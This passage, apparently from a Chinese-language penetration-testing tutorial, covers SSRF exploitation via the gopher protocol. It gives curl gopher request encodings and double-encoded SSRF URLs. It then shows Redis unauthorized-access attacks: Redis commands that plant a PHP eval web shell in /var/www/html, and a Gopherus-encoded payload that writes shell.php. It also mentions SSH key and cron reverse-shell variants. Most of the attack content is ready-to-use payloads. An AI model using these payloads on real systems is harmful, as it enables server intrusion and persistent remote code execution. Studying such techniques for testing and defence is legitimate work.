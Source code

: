 **发送 post 请求**

```
POST /test/post.php HTTP/1.1
Host: 192.168.1.1
Content-Type:application/x-www-form-urlencoded
Content-Length:11

name=test
```

那么需要变为如下格式
```
curl gopher://192.168.1.1:80/_POST%20/test/post.php%20HTTP/1.1%0d%0AHost:192.168.1.1%0d%0AContent-Type:application/x-www-form-urlencoded%0d%0AContent-Length:11%0d%0A%0d%0Aname=test%0d%0A
```

**ssrf 中的利用**

```
http://192.168.1.1/test/ssrf.php?url=gopher://192.168.1.2:6666/_abc

# 由于PHP在接收到参数后会做一次URL的解码,所以要在 url 编码一次
http://192.168.1.1/test/ssrf.php?url=gopher%3A%2F%2F192.168.1.2%3A80%2F_GET%2520%2Ftest%2Fget.php%253fname%3Dtest%2520HTTP%2F1.1%250d%250AHost%3A%2520192.168.1.2%250d%250A
```

URL中的／不能进行两次编码，端口号不可以两次编码,协议名称不可两次转码

##### 配合 Redis 未授权访问漏洞进行攻击

我们可以利用 Gopher 协议远程操纵目标主机上的 Redis，可以利用 Redis 自身的提供的 config 命令像目标主机写 WebShell、写 SSH 公钥、创建计划任务反弹 Shell 等，其思路都是一样的，就是先将 Redis 的本地数据库存放目录设置为 web 目录、~/.ssh 目录或 /var/spool/cron 目录等，然后将 dbfilename（本地数据库文件名）设置为文件名你想要写入的文件名称，最后再执行 save 或 bgsave 保存，则我们就指定的目录里写入指定的文件了。

**绝对路径写 WebShell**

redis命令
```
flushall
set 1 '<?php eval($_POST["whoami"]);?>'
config set dir /var/www/html
config set dbfilename shell.php
save
```

利用 Gopherus

```
gopherus --exploit redis
```
```
gopher%3A%2F%2F10.211.55.3%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%25248%250D%250A%250A%250Atest%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%25244%250D%250A%2Ftmp%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

